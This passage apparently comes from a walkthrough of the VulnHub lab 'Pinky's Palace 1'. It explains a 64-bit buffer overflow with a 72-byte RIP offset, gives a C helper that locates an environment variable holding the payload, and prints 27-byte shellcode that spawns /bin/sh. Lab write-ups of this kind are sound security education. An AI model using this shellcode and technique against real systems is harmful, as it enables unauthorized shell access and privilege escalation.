 Even though the stack aligns along the 8-byte boundary, the return address in the stack is 6 bytes.

![screenshot-27](/assets/images/posts/pinkys-palace-1-walkthrough/screenshot-27.png)

Now that we can control RIP with the offset at 72 bytes, we can place our shellcode in an environment variable and use the following code to determine the memory address of the environment variable, where the shellcode is. This will be our return address in the exploit.

<div class="filename"><span>getenvaddr.c</span></div>
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
    char *ptr;

    if(argc < 3) {
        printf("Usage: %s <environment variable> <target program name>\n", argv[0]);
        exit(0);
    }
    ptr = getenv(argv[1]); /* get env var location */
    ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* adjust for program name */
    printf("%s will be at %p\n", argv[1], ptr);
}
```

Since we are using the environment variable to store our payload, the size of the payload shouldn't be an issue. Having said that, I still prefer a minimalist approach and decide to use the shortest possible 64-bit [shellcode](http://shell-storm.org/shellcode/files/shellcode-806.php) (27 bytes) to execute `/bin/sh`.

```
\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05
```

Once we copy `getenvaddr.c` over with `scp` and compile it, it's time to get the party going.

![screenshot-28](/assets/images/posts/pinkys-palace-1-walkthrough/screenshot-28.png)


[1]: https://www.vulnhub.com/entry/pinkys-palace-1,225/
[2]: https://twitter.com/@Pink_P4nther
[3]: https://www.vulnhub.com